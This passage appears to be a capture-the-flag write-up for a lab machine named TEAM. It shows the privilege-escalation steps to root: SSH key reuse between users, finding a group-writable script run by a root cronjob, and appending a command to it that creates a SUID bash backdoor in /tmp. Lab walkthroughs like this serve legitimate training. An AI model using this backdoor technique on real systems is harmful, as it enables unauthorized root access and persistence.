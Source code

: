 To improve your shell, we can copy dale's `authorized_keys` file to `/home/gyles/.ssh/authorized_keys`, allowing us to connect as gyles with the same key (you'll need to change the permissions on the file as dale before copying them as gyles).

## 6. Privesc, gyles -> root - cronjob

We saw above that gyles is a member of the "admin" group. This sounds like it might be a big deal, so we search for all files and directories belonging to the admin group using `find` : 

```console
gyles@TEAM:/opt/admin_stuff$ find / -group admin 2>/dev/null
/usr/local/bin
/usr/local/bin/main_backup.sh
/opt/admin_stuff
```

`/opt/admin_stuff` contains a script `script.sh` that is owned by root : 

```bash
#!/bin/bash
#I have set a cronjob to run this script every minute

dev_site="/usr/local/sbin/dev_backup.sh"
main_site="/usr/local/bin/main_backup.sh"
#Back ups the sites locally
$main_site
$dev_site
```

Based on this comment, `/usr/local/bin/main_backup.sh` is run as root once a minute by a cronjob, and we've already seen that members of the admin group can write to the `main_backup.sh` script - in other words, we can execute arbitrary code as root. Keeping things simple, we add a line that copies an SUID bash binary into tmp : 

```console
gyles@TEAM:~$ echo "cp /bin/bash /tmp/bd && chmod u+s /tmp/bd" >> /usr/local/bin/main_backup.sh
```

After a minute or so, the script is run, and we find the SUID binary in `/tmp` :

```console
gyles@TEAM:~$ ls -l /tmp
total 1104
-rwsr-xr-x 1 root root 1113504 Oct 30 00:37 bd
...snip...
gyles@TEAM:~$ /tmp/bd -p
bd-4.4# whoami
root
```

The root flag is at `/root/root.txt`. 

Again, there is another way to find the information required for this step. Gyles' `.bash_history` is extensive, and includes references to all the files used here - `/usr/local/bin/main_backup.sh`, `/opt/admin_stuff/script.sh` - as well as calls to `sudo su` and `cronjob -l`.

## 7. Privesc (unintended), date -> root - lxd 
